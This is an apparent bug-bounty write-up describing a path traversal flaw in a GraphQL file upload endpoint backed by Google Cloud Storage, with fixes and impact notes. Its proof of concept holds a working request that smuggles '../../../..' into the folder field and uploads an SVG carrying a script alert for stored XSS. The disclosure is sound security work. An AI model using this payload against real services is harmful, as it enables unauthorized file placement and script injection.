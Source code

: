 ```yaml
---
title: Path Traversal in File Upload via GraphQL API
description: A file upload endpoint accepted folder traversal sequences, enabling unauthorized file placement and abuse of signed Google Cloud Storage URLs.
date: 2025-03-11
tags:
  - path-traversal
  - file-upload
  - graphql
  - gcp
  - bug-bounty
---
```


# Path Traversal in File Upload via GraphQL API


## Summary

During a routine test of a GraphQL file upload API, I discovered a **path traversal vulnerability** that allowed attackers to escape intended directories and store files in arbitrary locations on Google Cloud Storage. This could lead to **malicious file hosting**, **stored XSS**, or **unintentional overwriting of sensitive files**.

---

## Vulnerability Details

- **Endpoint**: `POST /graphql`
- **Vulnerable Parameter**: `folder` inside the GraphQL mutation

By setting the `folder` variable to a traversal string like `../../../..`, I was able to manipulate the final storage path of the uploaded file.

---

## Proof of Concept

Here’s a condensed version of the PoC used in the request:

```http
POST /graphql HTTP/2
Host: rise-api.target.com
Authorization: Bearer <token>
Content-Type: multipart/form-data; boundary=----boundary

------boundary
Content-Disposition: form-data; name="operations"

{
  "operationName": "singleUpload",
  "variables": {
    "folder": "../../../..",
    "file": "newfile"
  },
  "query": "mutation singleUpload($file: Upload!, $folder: String!) { singleUpload(file: $file, folder: $folder) { filename uri signedUrl } }"
}
------boundary
Content-Disposition: form-data; name="map"

{ "1": ["variables.file"] }
------boundary
Content-Disposition: form-data; name="1"; filename="test.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="no"?>
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert("XSS by mora");</script>
</svg>
------boundary--

```

### API Response

```json
{
  "data": {
    "singleUpload": {
      "filename": "test.svg",
      "uri": "organization_abc/../../../others/unique-id-test.svg",
      "signedUrl": "https://rise-files.target.com/others/unique-id-test.svg?...",
    }
  }
}
```

This shows the file being placed in a directory (`/others/`) outside the intended `organization_abc` context.

---

## Recommended Fixes

1. **Sanitize folder input**: Reject traversal sequences like `../` in any upload path.
2. **Whitelist upload directories**: Only allow uploads to pre-approved subdirectories.
3. **Limit signed URL lifetimes**: Expire signed URLs quickly to reduce misuse.
4. **Validate upload metadata server-side**: Don't rely on client-provided `folder` paths blindly.
5. **Restrict public access to upload endpoints**: Tie storage and access to strong authZ/authN checks.

---

## Impact

* **Persistent Malicious File Hosting**: Attackers could upload malware or phishing content to a trusted domain.
* **Stored XSS Risk**: Malicious file names or SVG files might execute if reflected or embedded.
* **Overwrite Risk**: Without validation, uploads could overwrite essential `.js`, `.json`, or user-generated content.
* **Information Exposure**: If GCS directory listings are ever enabled, sensitive files may be accessible.

---

## Resolution

The issue was marked **Informative** due to limited security impact in this context. However, it highlights a common misconfiguration when using file upload APIs, especially with cloud storage services like GCS or S3.

---

## 📚 References

* [OWASP Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
* [GCP Signed URLs Best Practices](https://cloud.google.com/storage/docs/access-control/signed-urls)

---

Thanks for reading!

---
